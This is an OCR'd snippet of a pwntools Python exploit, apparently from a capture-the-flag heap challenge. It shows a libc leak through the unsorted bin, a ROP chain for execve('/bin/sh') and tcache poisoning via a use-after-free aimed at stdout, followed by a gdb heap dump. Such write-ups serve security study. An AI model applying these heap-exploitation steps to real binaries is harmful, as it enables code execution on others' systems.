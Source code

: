 ```py

alloc(0, b"YY", 0x100)
# request back the chunk we used to leak the heap

alloc(7, b"YY", 0x100) # prev
alloc(8, b"YY", 0x100) # a

alloc(9, b"/bin/sh\0", 0x10) # barrier

# fill tcache
for i in range(7):
    free(i)

free(8) # free(a) => unsortedbin
free(7) # free(prev) => merged with a

# leak libc
view(8)

libc = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # - 0x1bebe0 # offset of the unsorted bin

rop = pwn.ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)

environ = libc.address + 0x221200
stdout = libc.address + 0x21a780

pwn.log.info(f"libc: {hex(libc)}")
pwn.log.info(f"environ: {hex(environ)}")
pwn.log.info(f"stdout: {hex(stdout)}")

alloc(0, b"YY", 0x100) # pop a chunk from the tcache to let an entry left to a 
free(8) # free(a) => tcache

alloc(1, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stdout ^ ((heap + 0xb20) >> 12))), 0x130) 
# 0x130, too big for tcache => unsortedbin UAF on a to replace a->next with the address of the target location (stdout) 
alloc(2, b"TT", 0x100)
# pop a from tcache

# next 0x100 request will return the target location (stdout)

"""
0x55c4fbcd7a00:	0x0000000000000000	0x0000000000000141 [prev]
0x55c4fbcd7a10:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a20:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a30:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a40:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a50:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a60:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a70:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a80:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7a90:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7aa0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ab0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ac0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ad0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7ae0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7af0:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7b00:	0x5454545454545454	0x5454545454545454
0x55c4fbcd7b10:	0x5454545454545454	0x0000000000000111 [a]
```